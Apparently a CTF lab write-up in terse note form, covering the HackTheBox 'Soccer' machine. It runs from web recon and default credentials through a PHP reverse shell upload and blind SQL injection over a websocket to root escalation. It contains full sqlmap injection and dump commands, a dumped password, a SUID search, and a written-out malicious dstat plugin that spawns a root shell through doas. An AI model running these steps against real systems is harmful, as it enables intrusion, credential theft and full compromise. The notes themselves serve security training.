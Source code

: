- nmap shows p 80 runs nginx
- aded ip in /etc/hosts for soccer.htb as i tried in browser
- dirbuster to find soccer.htb/tiny
- github gives usn and pd : admin, admin@123
- goto tiny/uploads and upload php reverse shell
- we gain reverse shell
- whoami is www-data
- we find in /etc/nginx/sites-enabled theres another virtual host
- we add to /etc/hosts : as its a subdomain we make sure the extra vhost is part of it in /etc/hosts so soc-player.soccer.htb
- goto site
- **BLIND SQLi**
- create account
- login
- ticket is new for every time you login
- if we change the number the ticket doesnt match so this is some kind of simple boolean function
- ticket no. + 'or 1=1'
- also test 2=1 and another numbers and we see there is no check there
- in burp suite we add intercept and then check the websocket which has this command and e get a response from client with a response ticket exists (sometimes need to turn off intercept and restart)
- save to file (boolean.req)
- pass sqlmap command :
	  **IMPORTANT NEW CODE**
- sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
- i tried with technique=B for bolean and it did not work
- we identify DB soccer_db which will be our target
- pass command to check that DB
- sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump --batch
- [1 entry] OUTPUT
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

- **PRIVILEGE ESCALATION WITHOUT SUDO i.e SETUID**
- SETUID is a unix based security mechanism that allos executables to be run with privileges of file owner.
- useful for executables that need to access system resources or perform actions that are typically restricted to privileged users, such as changing system settings or accessing other users' files.
- **CAN BE USED TO PRIV ESC**
- find files with SUID privileges :
		**NEW CODE**
- find / -type f -perm -4000 2>/dev/null
-  we notice /usr/local/bin/doas
- **WHY is this interesting?!**
- doas is not common
- in /usr/local
- **this is meant to be where admin specifically puts binaries**
- **and what are binaries?** they are executables
- so man doas to check what it idoes
- we see its a BSD command i.e its the BSD version of sudo
- BSD is another type of OS 
- **we also see a /usr/local/etc/bin/doas.conf**
- cat /usr/local/etc/doas.conf
- output : permit nopass player as root cmd /usr/bin/dstat
- man dstat
- dstat - versatile tool for generating system resource statistics
- EXECUTES PYTHON SCRIPTS
- we see in man ouput under FILES:
- FILES
				       Paths that may contain external dstat_*.py plugins:

			           ~/.dstat/
			           (path of binary)/plugins/
			           /usr/share/dstat/
			           /usr/local/share/dstat/
- as we can see /usr/share/dstat we could add a python script here since we have root priv here (can check sites like GTFObins for this)
- furthermore it needs to be saved in the format dstat_*.py
- echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
- verify plugin is detected my dstat : --list command
- doas /usr/bin/dstat --list 
- should find your file pwn there 
- EXECUTE DSTAT PLUGIN WITH DOAS
- doas /usr/bin/dstat --pwn (dstat --plugin_name)
- **WHY /usr/bin/dstat and not just dstat or another path?!**
- when we did cat /usr/local/etc/doas.conf the output clearly states to use the path
- **NOTE: the python file I created seems to delete itself after some time so this seems to be timegated**




